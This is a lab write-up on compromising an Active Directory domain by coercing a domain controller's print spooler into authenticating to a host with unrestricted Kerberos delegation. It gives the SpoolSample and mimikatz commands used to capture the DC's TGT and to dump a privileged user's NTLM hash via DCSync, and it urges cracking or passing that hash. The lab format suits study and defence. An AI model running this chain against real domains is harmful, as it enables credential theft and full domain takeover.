

# Domain Compromise via DC Print Server and Kerberos Delegation

This lab demonstrates an attack on Active Directory Domain Controller \(or any other host to be fair\) that involves the following steps and environmental conditions:

* Attacker has to compromise a system that has an unrestricted kerberos delegation enabled.
* Attacker finds a victim that runs a print server. In this lab this happened to be a Domain Controller.
* Attacker coerces the DC to attempt authenticating to the attacker controlled host which has unrestricted kerberos delegation enabled. 
  * This is done via RCP API  [`RpcRemoteFindFirstPrinterChangeNotificationEx`](https://msdn.microsoft.com/en-us/library/cc244813.aspx) that allows print clients to subscribe to notifications of changes on the print server.
  * Once the API is called, the DC attempts to authenticate to the compromised host by revealing its TGT to the attacker controlled compromised system.
* Attacker extracts `DC01's` TGT from the compromised system and impersonates the DC to carry a DCSync attack and dump domain member hashes.

This lab builds on [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md)

## Execution

Our environment for this lab is:

* ws01 - attacker compromised host with kerberos delegation enabled \(attacker, server\)
* dc01 - domain controller running a print service \(victim, target\)

After compiling the amazing PoC [SpoolSample](https://github.com/leechristensen/SpoolSample) by [@tifkin\_](https://twitter.com/tifkin_), we execute it with two arguments `target` and `server`:

```csharp
.\SpoolSample.exe dc01 ws01
```


We are shown a message that the target attemped authenticating to our compromised system, so let's check if we can retrieve DC01 TGT:

```csharp
mimikatz # sekurlsa::tickets
```



We indeed got a TGT for DC01$ computer!

With this, we can make our compromised system `ws01$` appear like a Domain Controller and extract an NTLM hash for the user `offense\spotless` which we know has high privileges in the domain:

```csharp
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```


The above clearly shows the attack was successful and an NTLM hash for the user spotless got retrieved -  get cracking or passing it now.

## Mitigation

For mitigations, see [Domain Compromise via Unrestricted Kerberos Delegation](domain-compromise-via-unrestricted-kerberos-delegation.md#mitigation) mitigations section.

## References







